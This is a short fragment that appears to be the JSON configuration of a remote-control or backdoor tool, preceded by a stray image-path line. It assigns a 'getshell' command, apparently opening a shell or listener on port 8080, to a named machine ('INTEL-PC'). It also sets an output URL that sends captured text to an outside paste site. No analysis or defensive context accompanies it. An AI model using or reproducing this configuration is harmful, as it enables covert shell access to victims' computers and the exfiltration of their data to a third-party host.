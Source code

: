 {
    "INTEL-PC": {
        "getshell": "l t 127.0.0.1 8080~open"
    },
    "all": {
        "outurl": "http://kl1p.com/qwokc?save=true&id=&text=%s&type=plain&name=qwokc&nid=&param=&client=web"
    }
}
